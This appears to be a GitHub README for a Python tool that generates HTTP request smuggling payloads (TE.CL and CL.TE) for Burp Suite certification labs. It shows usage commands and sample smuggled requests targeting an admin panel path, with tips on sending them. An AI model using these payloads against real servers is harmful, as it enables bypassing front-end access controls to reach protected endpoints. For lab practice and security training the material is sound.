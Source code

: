## Introduction
This tool is developed for burp suite practitioner certificate exam and HTTP Request Smuggling labs. The most important about this tool is <b>TE.CL</b> vulnerability exploitation and chunk size auto generator so you don't have to calculate the chunk size for the second(malicious request). <b>Τhis tool is simple but very useful</b>

The inspiration about this tool it was the [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension tool from burpsuite to use it you must have a valid burpsuite license.

For the valid chunk generator (TE.CL) i found the source code from [HTTP Requests Smuggler](https://github.com/PortSwigger/http-request-smuggler/) extension. You can find the source code below. <br>
> [TE-CL | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/TE-CL.py) <br>
> [CL-TE | PortSwigger HTTP Request Smuggler Resource](https://github.com/PortSwigger/http-request-smuggler/blob/master/resources/CL-TE.py)



## Installation
```
$ git clone https://github.com/dhmosfunk/simple-http-smuggler-generator.git
$ python3 tool.py --help
```

## Usage

```
$ python3 tool.py --help
usage: tool.py -v clte/tecl -host xxxxxxxxxx.net  -a admin_panel -m GET

options:
  -h, --help            show this help message and exit
  -v VULNERABILITY, --vulnerability VULNERABILITY
                        Possible values CLTE or TECL
  -host HOSTNAME, --hostname HOSTNAME
                        Target HOSTNAME
  -a ACTION, --action ACTION
                        ex. admin_panel
  -m METHOD, --method METHOD
                        Request Methods [GET, POST]
```

### Generating TE.CL Request
```
$ python3 tool.py -v tecl -host xxxx.net -a admin_panel -m get

---[TE.CL Payload Generated]---

Transfer-Encoding: chunked
Content-Length: 3

75
GET /admin_panel HTTP/1.1
Host: xxxx.net
Content-Type: application/x-www-form-urlencoded
Content-length: 15

x=1
0

---[TE.CL Payload Generated]---

[INFO]> Dont forget the \r\n after 0
Also disable the auto-update Content-Length from menu
```

### Send TE.CL Request
![image](https://user-images.githubusercontent.com/45040001/190521300-8a2cd4ec-3727-4c5c-a631-da0e86cb56f2.png)


### Generating CL.TE Request
```
python3 tool.py -v clte -host xxxx.net -a admin_panel -m get

---[CL.TE Payload Generated]---

Transfer-Encoding: chunked

0

GET /admin_panel HTTP/1.1
Host: xxxx.net
X-Ignore: X


---[CL.TE Payload Generated]---
```

### Send CL.TE Generated Request
![image](https://user-images.githubusercontent.com/45040001/190520684-1941ec58-15ef-4c92-96c1-4e4fc8181d8e.png)
